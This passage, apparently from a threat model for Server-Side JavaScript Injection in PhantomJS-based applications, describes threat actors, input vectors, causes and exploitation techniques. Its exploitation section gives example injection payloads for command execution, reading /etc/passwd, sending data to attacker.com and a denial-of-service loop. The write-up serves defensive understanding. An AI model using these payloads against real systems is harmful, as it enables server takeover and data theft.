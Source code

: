#### 4.1. Threat Actors

Potential threat actors who might exploit Server-Side JavaScript Injection vulnerabilities include:

* **External Attackers:** Malicious internet users seeking to gain unauthorized access, control, or disrupt the application and its server infrastructure. This is the most common and significant threat.
* **Internal Malicious Users (Less Likely):** In scenarios where the application is accessible within an organization, disgruntled or compromised internal users could potentially exploit this vulnerability if they have access to input mechanisms.
* **Automated Attack Tools:** Bots and automated scanners constantly probe web applications for common vulnerabilities, including injection flaws.

#### 4.2. Attack Vectors

Attackers can inject malicious JavaScript code through various input vectors that are used to dynamically construct PhantomJS scripts:

* **Web Forms:** Input fields in web forms designed to collect data that is subsequently used in PhantomJS script generation.
* **URL Parameters (GET Requests):** Data passed through URL parameters in GET requests, often used for application state or filtering, can be vulnerable if used in script generation.
* **Request Body (POST/PUT/PATCH Requests):** Data submitted in the request body, such as JSON or XML payloads in APIs, can be a prime target for injection if processed unsafely.
* **Cookies:** While less common, if application logic uses cookie values to construct PhantomJS scripts, they could be manipulated by attackers.
* **Uploaded Files (Indirectly):** If the application processes uploaded files and extracts data from them to use in PhantomJS scripts without proper sanitization, this could become an indirect attack vector.

#### 4.3. Vulnerabilities

The core vulnerability lies in the **lack of proper input sanitization and validation** when user-supplied data is incorporated into PhantomJS scripts. This can manifest in several ways:

* **Insufficient Input Validation:**  Failing to validate the type, format, length, and allowed characters of user input.
* **Inadequate Output Encoding/Escaping:** Not properly encoding or escaping user input before embedding it within the JavaScript string that will be executed by PhantomJS. This is crucial to prevent user input from being interpreted as code.
* **Unsafe String Concatenation:** Directly concatenating user input into a JavaScript string without proper escaping, leading to code injection.
* **Templating Engine Misuse:** If a templating engine is used to generate PhantomJS scripts, improper configuration or usage can lead to injection vulnerabilities if user input is not handled securely within the template.
* **Lack of Security Awareness:** Developers may not fully understand the risks of Server-Side JavaScript Injection or the importance of secure coding practices in this context.

#### 4.4. Exploitation Techniques

Once an injection point is identified, attackers can employ various techniques to exploit the vulnerability:

* **Remote Command Execution (RCE):** Injecting JavaScript code that leverages Node.js modules available in PhantomJS's environment (like `child_process`) to execute arbitrary system commands on the server.
    * **Example:** `'; require('child_process').exec('whoami > /tmp/pwned.txt'); //`
* **File System Access:** Injecting code to read sensitive files from the server's file system, potentially including configuration files, source code, or data files.
    * **Example:** `'; console.log(require('fs').readFileSync('/etc/passwd', 'utf8')); //`
* **Data Exfiltration:** Injecting code to send sensitive data to an attacker-controlled server.
    * **Example:** `'; var http = require('http'); http.get('http://attacker.com/log?data=' + encodeURIComponent(sensitiveData)); //`
* **Denial of Service (DoS):** Injecting code to cause resource exhaustion, infinite loops, or crashes in the PhantomJS process or the server itself.
    * **Example:** `'; while(true){}; //`